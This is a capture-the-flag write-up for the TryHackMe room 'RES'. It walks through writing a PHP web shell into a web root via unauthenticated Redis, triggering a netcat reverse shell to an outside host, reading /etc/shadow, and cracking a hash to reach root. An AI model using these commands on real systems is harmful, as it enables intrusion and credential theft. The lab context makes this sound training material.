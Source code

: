 # [RES](https://tryhackme.com/room/res) - Writeup

## Description:
In this machine, we exploited a misconfigured Redis database to gain initial access, then performed privilege escalation via password cracking to get root access.

## Enumeration
Initial port scan:
```python
nmap -sV -sC -p- 10.10.105.88
```
Open ports discovered:
```python
80/tcp   open  http
6379/tcp open  redis   Redis key-value store 6.0.7
```
* Port 80: Default Apache page.

* Port 6379 (Redis): Misconfigured, allows remote connections without authentication.

## Exploitation
We injected a web shell through Redis by changing its save directory to /var/www/html:
```python
redis-cli -h 10.10.105.88 -p 6379
config set dir /var/www/html
config set dbfilename webshell.php
set test "<?php system($_GET['cmd']); ?>"
save
exit
```
Trigger the reverse shell via URL:
```python
http://10.10.105.88/webshell.php?cmd=nc -e /bin/sh 10.10.10.10 4444
```
Start listener:
```python
nc -lvnp 4444
```
Now we have a shell.

## Privilege Escalation

Dump /etc/shadow:
```python
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
echo "vianka:***********************************************************************************************" > hash.txt
```
Extract hash for user vianka and save to file hash.txt.

Crack the hash with John the Ripper:
```python
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Switch to the cracked user:
```python
su vianka
sudo -l
```
We have full sudo privileges:
```python
sudo su
```
Read the flag:
```python
cat /root/root.txt
```
## Conclusion
This machine demonstrated the danger of exposing Redis without authentication. Misconfigurations can easily lead to remote code execution and root access.
